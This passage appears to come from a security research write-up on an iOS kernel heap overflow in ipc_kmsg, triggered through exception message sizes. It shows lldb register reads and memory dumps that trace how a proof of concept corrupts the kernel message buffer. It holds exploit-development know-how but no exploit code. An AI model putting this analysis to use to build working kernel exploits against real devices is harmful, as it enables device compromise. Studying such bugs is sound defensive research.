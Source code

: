 * `EXCEPTION_STATE` gave us `0x194`
* `EXCEPTION_DEFAULT | MACH_EXCEPTION_CODES` gave us `0xa8`

While the preallocated buffer is always of size `0xa0`.

Let's try out our new poc, with `notify_surface`:

```
* thread #5, stop reason = breakpoint 2.1
    frame #0: 0xfffffff007bd00fc
->  0xfffffff007bd00fc: add    x10, x22, x10
    0xfffffff007bd0100: sub    x8, x10, x8
    0xfffffff007bd0104: add    x8, x8, #0x5c
    0xfffffff007bd0108: movk   x9, #0x3ca5, lsl #48
Target 0: (No executable module.) stopped.
(lldb) reg read x10
     x10 = 0x00000000000000a0
(lldb) reg read x8
      x8 = 0x00000000000000c4
```

**Fantastic!** Let's view the overlap. Setting a breaking on the `memcpy` call itself:

```
* thread #6, stop reason = breakpoint 2.1
    frame #0: 0xfffffff007bd0164
->  0xfffffff007bd0164: bl     -0xff634e7f0
    0xfffffff007bd0168: mov    w23, #0x0
    0xfffffff007bd016c: ldr    x16, [x22, #0x18]
    0xfffffff007bd0170: b      -0xff59ebe38
Target 0: (No executable module.) stopped.
(lldb) reg read x0
      x0 = 0xffffffe4cc71ee38
(lldb) reg read x2
      x2 = 0x0000000000000080
(lldb) reg read x22
     x22 = 0xffffffe4cc71ee00
(lldb) x/14gx $x22
0xffffffe4cc71ee00: 0x0000000000000000 0x0000000000000000
0xffffffe4cc71ee10: 0xff92fee3e88a7660 0xfff1dce4cc71ee38 <-- ikm_header
0xffffffe4cc71ee20: 0x0000000000000000 0x0000000000000000
0xffffffe4cc71ee30: 0x0000000000000000 0x0000000000000000
0xffffffe4cc71ee40: 0x0000000000000000 0x00000000000000a0
0xffffffe4cc71ee50: 0x0000000000000000 0x0000000000000000
0xffffffe4cc71ee60: 0x0000000000000000 0x0000000000000000
(lldb) 
```

`x22` is our vulnerable `ipc_kmsg`. Note that:

* The `ikm_header` pointer points to the middle of the kmsg (offset `+0x38`)
* The length of the copy is `0x80` (makes sense, 0xc4-0x44), and we start to corrupt from offset `+0x38`

But the important question is - what's the overlap?
